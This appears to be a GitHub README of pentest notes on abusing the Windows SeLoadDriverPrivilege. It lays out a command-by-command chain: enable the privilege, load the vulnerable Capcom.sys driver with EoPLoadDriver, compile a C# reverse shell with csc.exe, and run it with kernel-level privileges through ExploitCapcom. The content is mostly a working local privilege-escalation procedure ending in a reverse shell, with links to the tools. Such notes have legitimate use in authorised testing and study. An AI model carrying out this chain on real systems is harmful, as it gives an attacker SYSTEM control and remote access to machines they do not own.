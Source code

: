 # SeLoadDriverPriv
Some stuff that can be handy to abuse SeLoadDriverPriv

## Get Priv
In order to get the privilege, we need to spawn a high integrity process
- Option 1: Load PowerShell or cmd.exe as Administrator (no Administrator group membership required!) - Lesson learned from Wh04m1
- Option 2: Use elevate.exe to spawn cmd (https://github.com/PaoJiao/elevate)
```
elevate.exe cmd.exe
```

## Enable Privilege
After spawning the administrative shell the SeLoadDriverPrivilege is visible, but still disabled. Therefore needs to be enabled. Run the script.
```
. .\Enable-SeLoadDriverPrivilege.ps1
Enable-Privilege SeLoadDriverPrivilege
```

## Compile and run EoPLoadDriver
Compile EoPLoadDriver in VisualBasic and load the vulnerable Capcom.sys driver
```
.\EoPLoadDriver.exe System\CurrentControlSet\Capcom C:\pentest\SeLoadDriverPrivilege\Capcom.sys
```

## Generate Reverse Shell
Quickly compile C# reverse shell.

```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /t:exe /out:C:\pentest\SeLoadDriverPrivilege\rev.exe C:\pentest\SeLoadDriverPrivilege\rev.cs
```

## Compile the exploit and execute arbitrary vulnerable driver
Exploit the vulnerable driver and execute the binary of your choice
```
.\ExploitCapcom.exe C:\pentest\SeLoadDriverPrivilege\rev.exe
```

References

- [https://github.com/PaoJiao/elevate](https://github.com/PaoJiao/elevate)
- [https://github.com/TarlogicSecurity/EoPLoadDriver/](https://github.com/TarlogicSecurity/EoPLoadDriver)
- [https://github.com/tandasat/ExploitCapcom](https://github.com/tandasat/ExploitCapcom)
- [https://github.com/FuzzySecurity/Capcom-Rootkit](https://github.com/FuzzySecurity/Capcom-Rootkit)
- [https://www.puckiestyle.nl/c-simple-reverse-shell/](https://www.puckiestyle.nl/c-simple-reverse-shell/)




